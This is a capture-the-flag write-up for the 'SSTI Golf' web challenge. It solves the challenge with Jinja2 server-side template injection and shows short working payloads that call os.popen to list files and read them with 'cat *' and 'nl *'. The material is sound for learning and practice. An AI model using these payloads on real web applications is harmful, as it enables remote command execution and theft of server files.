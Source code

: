 # SSTI Golf
**Web**

### Description

Just in case you didn't get enough golf with the other challenge. Flag is in an arbitrarily named file, but in the same directory.  
http://sstigolf.chal.imaginaryctf.org

### Solution 
This challenge asks for a Flask/Jinja2 SSTI(Server Side Template Injection). There are many resources and payloads available online if you google `Jinja2 SSTI`. I personally find [this blog](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) and [this cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) very cute.  

The real challenge here is to reduce the size of your payload. I did a simple search and found [this article](https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/). I was able use the a similar payload to solve the problem. Specifically  
1. Get the current directory
```python
{{lipsum.__globals__.os.popen("ls").read()}}
``` 
The return value is 
```python
app.py run.sh truly_an_arbitrarily_named_file
```

2. Looks like `truly_an_arbitrarily_named_file` is probably the file we want to read. Now we save the command we want to call, `cat truly_an_arbitrarily_named_file`, to a config variable. 
```python
{{config.update(l=request.args.get("l"))}}&l=cat truly_an_arbitrarily_named_file
```

3. Call popen again with the variable we just wrote to config. 
```python
{{lipsum.__globals__.os.popen(config.l).read()}}
```
And there returns the flag. 

### Some Better(?) Solutions
- I talked to `puzzler7`(who writes this chal :rooYay2:) later and found out I could just do 
```python
{{lipsum.__globals__.os.popen("cat *").read()}}
``` 
(•\*\_•\*) (•\*\_•\*) (•\*\_•\*)
- Actually the intended solution is 
```python
{{cycler.next.__globals__.os.popen("nl *")|max}}
```
Since `popen()` returns an iterator, anything takes an iterator can read it. That saves 3... chars on `.read()`.  
*But we all know `lipsum` wins.*

